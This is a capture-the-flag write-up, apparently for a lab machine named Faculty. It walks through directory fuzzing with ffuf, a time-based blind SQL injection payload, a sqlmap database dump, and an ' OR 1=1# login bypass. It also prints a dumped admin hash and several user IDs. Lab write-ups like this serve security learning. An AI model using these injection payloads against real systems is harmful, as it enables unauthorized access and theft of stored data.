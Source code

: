 # Faculty

## User Flag

Immediately after adding faculty.htb to my notes, I immediatly tried accessing a webpage and was greeted with a login page right away.

After performing a quick nmap scan, I found that it has an open port on 22 and 80.

The /login.php page presents us with an option to input a faculty id number. When inputing a number it simply sends a POST request in the form of form data.

Next I'm going to open the request in Burp Suite and work from there.

But before I do that, I should get a good understanding of the systems I'm breaking into.

### Fuzzing Directories

Next, I fuzzed the web directories to see what I could make out of them.

```
ffuf -u http://faculty.htb/FUZZ -w directory-list-1.0.txt
```

The directory I pulled back was: /admin/

Accessing http://faculty.htb/admin/ presented me with a dashboard for a college. I was currently logged in as user 27, which I'm not quite sure why.

Poking around, there is potential for LFI as well as a logout box which will allow you to login as other users.

### SQL Injections

Looks like it responded to a basic ' SQLi payload. So I'm going to manually try with some other payloads until I get a hit.

Eventually I got one, I know it succeeded because it ran SLEEP(5) and caused the server to delay for 5 seconds.

```
id_no=2100935'+AND+(SELECT+1+FROM+(SELECT(SLEEP(5)))a)+AND+'1'='1
```

Afterward, I saved my successful request and shoved it into sqlmap. Which I am hoping will give me a table dump.

```
sqlmap -r request.req
```

Notably I retrieved a database called scheduling_db.

It contains 6 tables inside.

* scheduling_db
	* class_schedule_info
	* courses
	* faculty
	* schedules
	* subjects
		* id
		* subject
		* description
	* users

We were also able to gain an admin password hash as well as some ids.
```
admin:1fecbe762af147c1176a0fc2c722a345

id | id_no
1	63033226
2	85662050
3	30903070
```

Turns out we can use these id numbers to log into the system without any other need for credentials!

It should also be noted that the admin login page on /admin/ can be bypassed with a simple SQL injection.

```
' OR 1=1#
poop
```


